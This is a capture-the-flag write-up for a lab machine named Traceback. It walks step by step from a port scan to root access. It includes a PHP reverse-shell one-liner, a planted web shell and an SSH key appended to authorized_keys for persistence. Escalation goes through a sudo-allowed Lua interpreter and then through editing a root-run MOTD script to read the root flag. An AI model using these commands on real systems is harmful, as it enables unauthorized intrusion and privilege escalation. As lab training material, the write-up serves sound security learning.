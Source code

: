like always.. start with nmap
```console
kali@kali:~/ractf$ nmap -p- -vv traceback
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-06 19:39 EDT
Initiating Ping Scan at 19:39
Scanning traceback (10.10.10.181) [2 ports]
Completed Ping Scan at 19:39, 0.04s elapsed (1 total hosts)
Initiating Connect Scan at 19:39
Scanning traceback (10.10.10.181) [65535 ports]
Discovered open port 80/tcp on 10.10.10.181
Discovered open port 22/tcp on 10.10.10.181
Completed Connect Scan at 19:40, 32.71s elapsed (65535 total ports)
Nmap scan report for traceback (10.10.10.181)
Host is up, received syn-ack (0.039s latency).
Scanned at 2020-06-06 19:39:31 EDT for 33s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
after I check the websie I found this
```html
<body>
	<center>
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
	</center>
</body>
```
So I google *Xh4H* along with *webshells*. The google will lead you to Xh4H's tweet when we tweeted about web shell

![googled](pic/google.png)

which bring me to this github [repo](https://github.com/TheBinitGhimire/Web-Shells). The web shell should be one of this. so let try


**Bingo**! I found it ```smevk.php```. But I do need a cerdential lol. no worry you will find it [here](https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php)


![web shell](pic/allow.png)
as you can see here in the web shell that we are allow to run : ```php, perl, tar, gzip, bzip2, nc, locate``` I do not like the interface so let spawn a reverse shell. start by run ```nc``` on ur kali and wait for the connection
```console
kali@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [XXXXXXXX] from (UNKNOWN) [XXXXXXXX] 41528
/bin/sh: 0: can't access tty; job control turned off
```
now run ```$ php -r '$sock=fsockopen("ur",1234);exec("/bin/sh -i <&3 >&3 2>&3");'``` to spawn a reverse shell


we nowe have a reverse shell let enumerate and find out more about the machine, start with checking webadmin's home
```console
$ ls /home/webadmin
note.txt
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
Okey it seem like we will do something it Lua script. but im not sure where it is.


let check what commands we are allow to use:
```console
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
seem like we are allow to execute ```luvit``` as *sysadmin* without using password. I try to run bit but my reverse shell keep crashing.


I remember that we port22 ssh is open, let include out key in webadmin key so we can ssh in as him.
```console
kali@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.126] from (UNKNOWN) [10.10.10.181] 41528
/bin/sh: 0: can't access tty; job control turned off
$ ls /home/webadmin/.ssh
authorized_keys
$ echo "ur id_rsa.pub" >> /home/webadmin/.ssh/authorized_keys
```
now let SSH to the machine using our private key
```console
kali@kali:~$ ssh webadmin@traceback -i .ssh/id_rsa
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jun  6 17:32:51 2020 from 10.10.15.126
webadmin@traceback:~$ 
```
Yeah ! we are in !! let try to execute ```luvit```
```console
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
```
now let make lua to spawn a shell. check this [link](https://netsec.ws/?p=337) and using ```-e``` which around use to "edit" ```luvit```
```console
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e "os.execute('/bin/sh')"
$ ls
note.txt
$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
$ cd ../sysadmin
$ ls 
luvit  user.txt
$ cat user.txt #flag
```
now let get root. I by checking ```crontab``` but I cant find anything interessting. I also run ````find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null ```` to find SUID + SUIG but there is nothing there either


I decided to check the current runing process, and I did find something **juicy**
```
webadmin@traceback:~$ ps -aux
root       1471  0.0  0.0  58792  3204 ?        S    18:03   0:00 /usr/sbin/CRON -f
root       1473  0.0  0.0   4628   768 ?        Ss   18:03   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
root       1475  0.0  0.0   7468   764 ?        S    18:03   0:00 sleep 30
webadmin   1477  0.0  0.0  39664  3632 pts/0    R+   18:03   0:00 ps -aux
```
```/etc/update-motd.d/``` is run by root and keep it keep "reset" it self each 30 sec. let check what is in that directory
```console
webadmin@traceback:~$ ls -la /etc/update-motd.d/
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Jun  6 18:03 00-header
-rwxrwxr-x  1 root sysadmin  982 Jun  6 18:03 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Jun  6 18:03 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Jun  6 18:03 80-esm
-rwxrwxr-x  1 root sysadmin  299 Jun  6 18:03 91-release-upgrade
```
as you can see here the we can edit all those files, After I checked files, I found out that ```00-header``` is the file that execute every time a user ssh in to the machine. You can see that you get the message contain in ```00-header``` when you ssh to the machine.


we can trick ```00-header``` and make it show root flag when we ssh to the mechine. Remember to do it fast, everything in ```/etc/update-motd.d/``` will be reset every 30 sec
```console
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e "os.execute('/bin/bash')" #spawn a bash insead shell is boring
sysadmin@traceback:~$ nano /etc/update-motd.d/00-header # now add cat /root/root.txt
Unable to create directory /home/webadmin/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

sysadmin@traceback:~$ cat /etc/update-motd.d/00-header # view it.
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
cat /root/root.txt
```
now exit and ssh to the machine to get root flag
```console
sysadmin@traceback:~$ exit
exit
true    'exit'  0
webadmin@traceback:~$ exit
logout
Connection to traceback closed.
kali@kali:~$ ssh webadmin@traceback -i .ssh/id_rsa
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

FLAG{XxXXXXXXXXXXXXXXX}


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jun  6 18:17:34 2020 from 10.10.15.126
webadmin@traceback:~$ 
````